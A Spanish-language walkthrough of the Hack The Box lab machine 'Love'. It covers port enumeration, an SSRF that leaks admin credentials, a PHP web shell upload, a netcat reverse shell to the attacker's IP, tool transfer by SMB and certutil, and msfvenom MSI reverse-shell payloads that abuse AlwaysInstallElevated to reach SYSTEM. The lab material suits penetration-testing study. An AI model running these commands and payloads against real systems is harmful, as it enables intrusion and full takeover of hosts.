# Love

- Máquina windows ttl=127 ->  **Windows 10 Pro 6.3**

```bash
sudo nmap -p- --open -sCV --min-rate=5000 -n 10.129.48.103 -oN nmapResult.txt
```

Mucho puerto
- 7680 pando-pub



- 135, 49664 - 49670



- Resto



- Puertos más interesantes
- 80/443/5000 → web
- 445 → SMB
- 5985/5986 → WinRM (post-explotación)
- 3306 → creds/reutilización.

- Puerto 80 -> Meteremos staging.love.htb y love.htb en /etc/hosts
```bash
whatweb http://10.129.48.103
```

http://10.129.48.103 [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27], IP[10.129.48.103], JQuery, OpenSSL[1.1.1j], PHP[7.3.27], PasswordField[password], Script, Title[Voting System using PHP], X-Powered-By[PHP/7.3.27], X-UA-Compatible[IE=edge]



No tenemos credenciales a priori

- Puerto 443
Nos pide que usemos estructura TLS ->
```bash
https://10.129.48.103:443
```

Nos advierte de peligro



love.htb
staging.love.htb
roy.love@htb (posible usuario)

Aceptamos pero obtenemos un forbidden



- Puerto 5000 -> otro forbidden



-
```bash
gobuster dir -u http://10.129.48.103 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x html,php,txt
```

Hay muchos directorios



- /admin
Podemos enumerar usuarios, en este caso **admin**



- /Plugins -> 200 mil carpetas de cargas de recursos, imagenes, iconos, etc

·/Includes
Vemos una ruta rara *C:\xampp\htdocs\omrs\includes\ballot_modal.php*



Puede ser una ruta interesante



- /examples
Está caído



-
```bash
http://staging.love.htb
```



Escanea una url de un archivo que le pasemos

- Hacemos gobuster pero no hay ningun directorio interesante, mucho 403

- En la parte de escaneo si le decimos que acceda a un archivo expuesto en nuestra máquina, lo hace





- Si hacemos un SSRF http://127.0.0.1:5000



**admin:@LoveIsInTheAir!!!!**

- Estamos en el panel de autenticación



- Al crear un candidato y capturar la petición, vemos que el archivo imagen que se sube se envía sin ninguna comprobación extra
Subiremos una shell dentro del archivo



-



- Obtenemos RCE



Nos encontramos en C:\xampp\htdocs\omrs\images

- Intentaremos lanzarnos una shell con nc.
Si hacemos
```powershell
locate nc
```

parece que no tiene la máquina, por lo que lo subiremos

- Subimos el *nc.exe* de nuestro kali a la imagen como hemos hecho anteriormente con la shell.php
Ahora si lo encuentra



- Nos pondremos en escucha
```bash
rlwrap nc -nlvp 443
```

Lanzamos la cmd por nc
```bash
http://love.htb/images/shell.php?cmd=nc.exe -e cmd.exe 10.10.15.36 443
```

love\phoebe

## Escalada

```powershell
whoami /priv
```



No vemos permisos raros en principio

- En C:\xampp vemos un *passwords.txt*



- Buscaremos posibles formas de escalada con *winPEAS*
```bash
find / -iname \*winpeas\* 2>/dev/null
```

Nos lo pasaremos por smb creando un recurso compartido desde nuestro linux
```bash
impacket-smbserver smbPwned $(pwd) -smb2support -username qarlg -password qarlg
```

Lo obtenemos desde la maq windows
```powershell
net use \\10.10.15.36\smbPwned /u:qarlg qarlg
```

Nos copiamos el archivo del smb al desktop
```powershell
copy \\10.10.15.36\smbPwned\winPEASx64.exe C:\Users\Phoebe\Desktop
.\winPEASx64.exe
```

- Otra forma de copiarlo a la maq windows por http
```bash
python3 -m http.server 80
```

```powershell
certutil.exe -f -urlcache -split http://10.10.15.36/winPEASx64.exe winPeas.exe
```

certutil.exe es como curl
-f: force
-split: para manejar respuestas grandes
-urlcache: pero hacer la peticion por http/https

- Si ejecutamos winpeas vemos que hay una configuración que SIEMPRE es peligrosa si está activada ALWAYS INSTALL ELEVATED para HKLM Y HKCU



- Si pulsamos en el enlace de hacktricks -> https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated
Nos dice como elevar privilegios con un archivo msi

- Crearemos el arhivo msi con el payload de reverse shell y lo ejecutaremos con *msiexec*



Código de hacktricks
```bash
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi
```

Cambiaremos el payload de windows adduser, que sirve para crear un usuario, y utilizaremos un payload de revshell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.96 LPORT=4444 --platform windows -a x64 -f msi -o reverse.msi
```

-p: payload *
--platform: plataforma windows o linux
-a: arquitectura de 64 bytes
-f: formato
\* Para buscar el payload
```bash
msfvenom -l payloads | grep windows
```



- Nos lo subimos a la maq windows por python
```powershell
certutil.exe -f -urlcache -split http://10.10.14.96/reverse.msi reverse.msi
```

- Nos ponemos en escucha con
```bash
rlwrap nc -nlvp 4444
```

- Instalamos el archivo .msi como nos dice *hacktricks*
```powershell
msiexec /quiet /qn /i reverse.msi
```

nt authority\system
